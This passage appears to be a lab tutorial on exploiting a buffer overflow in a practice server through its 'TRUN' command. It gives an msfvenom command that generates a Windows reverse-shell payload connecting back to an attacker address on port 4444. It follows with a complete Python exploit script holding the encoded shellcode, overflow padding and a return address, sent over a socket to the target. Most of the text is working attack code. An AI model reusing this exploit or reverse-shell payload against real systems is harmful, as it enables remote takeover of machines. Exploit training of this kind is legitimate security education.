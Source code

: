 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, to generate our payload, the command will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to
**EXITFUNC:** Makes connection more stable
**-f:** for file type in this case C
**-a:** for architecture, could be x64 or x86
**-b:** for bad characters

- Paste this command into your terminal and you should get a payload

![](https://i.imgur.com/fTp8ZvG.png)

Now insert this payload into this python script replacing the value of the variable `shellcode` with the payload 

```python
#!/usr/bin/python
 
import sys, socket

overflow = ("\xbe\xa0\x7a\x1b\xf1\xdb\xdf\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x70\x12\x83\xc0\x04\x03\xd0\x74\xf9\x04\xec"
"\x61\x7f\xe6\x0c\x72\xe0\x6e\xe9\x43\x20\x14\x7a\xf3\x90"
"\x5e\x2e\xf8\x5b\x32\xda\x8b\x2e\x9b\xed\x3c\x84\xfd\xc0"
"\xbd\xb5\x3e\x43\x3e\xc4\x12\xa3\x7f\x07\x67\xa2\xb8\x7a"
"\x8a\xf6\x11\xf0\x39\xe6\x16\x4c\x82\x8d\x65\x40\x82\x72"
"\x3d\x63\xa3\x25\x35\x3a\x63\xc4\x9a\x36\x2a\xde\xff\x73"
"\xe4\x55\xcb\x08\xf7\xbf\x05\xf0\x54\xfe\xa9\x03\xa4\xc7"
"\x0e\xfc\xd3\x31\x6d\x81\xe3\x86\x0f\x5d\x61\x1c\xb7\x16"
"\xd1\xf8\x49\xfa\x84\x8b\x46\xb7\xc3\xd3\x4a\x46\x07\x68"
"\x76\xc3\xa6\xbe\xfe\x97\x8c\x1a\x5a\x43\xac\x3b\x06\x22"
"\xd1\x5b\xe9\x9b\x77\x10\x04\xcf\x05\x7b\x41\x3c\x24\x83"
"\x91\x2a\x3f\xf0\xa3\xf5\xeb\x9e\x8f\x7e\x32\x59\xef\x54"
"\x82\xf5\x0e\x57\xf3\xdc\xd4\x03\xa3\x76\xfc\x2b\x28\x86"
"\x01\xfe\xff\xd6\xad\x51\x40\x86\x0d\x02\x28\xcc\x81\x7d"
"\x48\xef\x4b\x16\xe3\x0a\x1c\xd9\x5c\x14\x41\xb1\x9e\x14"
"\x68\x1e\x16\xf2\xe0\x8e\x7e\xad\x9c\x37\xdb\x25\x3c\xb7"
"\xf1\x40\x7e\x33\xf6\xb5\x31\xb4\x73\xa5\xa6\x34\xce\x97"
"\x61\x4a\xe4\xbf\xee\xd9\x63\x3f\x78\xc2\x3b\x68\x2d\x34"
"\x32\xfc\xc3\x6f\xec\xe2\x19\xe9\xd7\xa6\xc5\xca\xd6\x27"
"\x8b\x77\xfd\x37\x55\x77\xb9\x63\x09\x2e\x17\xdd\xef\x98"
"\xd9\xb7\xb9\x77\xb0\x5f\x3f\xb4\x03\x19\x40\x91\xf5\xc5"
"\xf1\x4c\x40\xfa\x3e\x19\x44\x83\x22\xb9\xab\x5e\xe7\xd9"
"\x49\x4a\x12\x72\xd4\x1f\x9f\x1f\xe7\xca\xdc\x19\x64\xfe"
"\x9c\xdd\x74\x8b\x99\x9a\x32\x60\xd0\xb3\xd6\x86\x47\xb3"
"\xf2")

shellcode = "A" * 2003 + "\xaf\x11\x50\62" + overflow

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```


